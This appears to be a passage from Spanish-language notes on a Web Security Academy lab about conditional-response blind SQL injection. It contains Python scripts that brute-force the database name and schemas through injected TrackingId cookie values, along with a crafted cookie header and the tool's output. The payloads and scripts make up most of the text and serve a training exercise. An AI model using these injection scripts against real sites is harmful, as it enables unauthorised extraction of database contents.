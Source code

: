 ```
                    'TrackingId': "Pls1hO5hFWG9D8iI' and (select substr(current_database(),%d,1)='%s')-- - " % (
                    position, character),
                    'session': "9Urch8ydtajImJUb0xQSyEsITyiiKOfw"
                }

                p1.status(cookies['TrackingId'][:150])

                r = requests.get(url, cookies=cookies)

                if "Welcome back!" in r.text:
                    output += character
                    f.write(character)
                    f.flush()
                    p2.status(output)
                    break

if __name__ == '__main__':
    makeRequest()
```

`Obtenemos` el `nombre` de la `base de datos en uso`

```
# python sqli_conditional_response.py
[O] Fuerza bruta: BqARFKHGTXlkQv0f' and (select substr(current_database(),12,1)='s')-- - 
[../.....] Output: academy_labs
```

`Obtener` la `longitud` los `esquemas` para la `base de datos en uso`

```
Cookie: TrackingId=BqARFKHGTXlkQv0f'+and+length((select+string_agg(schema_name,', ')+from+information_schema.schemata))=38--+-+; session=PDzYnGW9Ald1yVYhbOOLuw5PTdPkXSmc
```

Modificamos el script de python para obtener todos los esquemas

```
#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig,frame):
    print("\n\n[!] Saliendo ...\n")
    sys.exit(1)

# Ctrl + C
signal.signal(signal.SIGINT, def_handler)

url = "https://0a4600750477326c80527b1d00dd00c0.web-security-academy.net/"
characters = "".join(sorted(set(char for char in string.printable if char.isprintable() and char != " "), key=string.printable.index))

def makeRequest():
    output = ""

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Output")

    with open("output.txt", "w") as f:
        for position in range(1, 39):
```